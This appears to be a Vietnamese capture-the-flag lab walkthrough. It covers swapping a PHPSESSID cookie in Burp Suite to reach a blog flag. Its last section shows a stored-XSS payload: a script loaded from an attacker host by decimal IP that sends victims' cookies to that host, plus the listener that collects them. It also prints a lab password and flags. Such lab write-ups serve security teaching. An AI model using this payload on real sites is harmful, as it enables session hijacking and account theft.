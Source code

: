 - Nếu đã làm lab <strong>Club status</strong> thì chỉnh giá trị trường PHPSESSID trong Burpsuite ```Options/Sessions->Open cookie jar (phần Cookie jar)``` thành <strong><code>...</code></strong> sau đó reload lại trong blog để hiện Flag <strong>OrganicShantyAbsent505</strong><br/>
- Nếu chưa làm lab <strong>Club status</strong> thì: <br/>
<code>- Mở Burpsuite (Application/Kali Linux/Top 10 Security Tools/burpsuite) -> Tắt Intercept (Intercrept is off) ở tab Proxy</code><br/>
<code>- Mở trình duyệt Iceweasel -> Edit -> Preferences -> chọn tab Advanced -> chọn tab Network -> Settings -> Manual proxy configuration (HTTP Proxy: 127.0.0.1 Port 8080)</code><br/>
<code>- Duyệt 192.168.100.210/index.php (tab Blog bị mở không click được) -> Click vào Sign In</code><br/>
<code>- Quay lại burpsuite -> chọn tab Options -> chọn tab Sessions -> Chọn Use cookies from Burp's cookie jar (trong phần Session Handling Rules) -> Edit -> chọn tab Scope -> tích chọn Proxy (use with caution), bỏ chọn Scanner, Spider -> OK</code><br/>
<code>- Kéo xuống phần Cookie jar -> chọn Open cookie jar (Set value = 1 trước đã) -> chọn dòng có name là PHPSESSID -> Edit cookie -> chỉnh giá trị trường value thành ... -> OK -> close </code><br/>
```(Chú ý,trường value sẽ được thay đổi với mỗi lần khởi động lại linux nên value bên trên có thể sai,nếu value trên sai thì có thể làm theo cách dưới)``` <br/>
<code>- Quay lại trình duyệt Iceweasel reload lại trang sẽ thấy tab Blog sáng lên</code><br/>
<code>- Ấn vào tab BLog</code><br/>
Flag <strong>OrganicShantyAbsent505</strong>


-<strong>Cách lấy value session của người dùng.</strong> <br/>
<code>-Nhập: echo "$.get('http://192.168.100.200?cookie=' +document.cookie);" > .j (vào terminal)</code> <br/>
<code>-Mở server để lắng nghe: sudo python -m SimpleHTTPServer 80 (Terminal) (pass:COS30015user)</code> <br/>
<code>-Nhập <q>[<script src=//3232261320/.j>](test5)</q> vào ô comment của New Feature: REST API - Documents và submit.(3232261320 là số thập phân của 192.168.100.200)</code> <br/>
<code>-Đợi một lúc và chúng ta sẽ thấy một số session id nổi lên,thử hết chúng để lấy flag.</code> <br/>
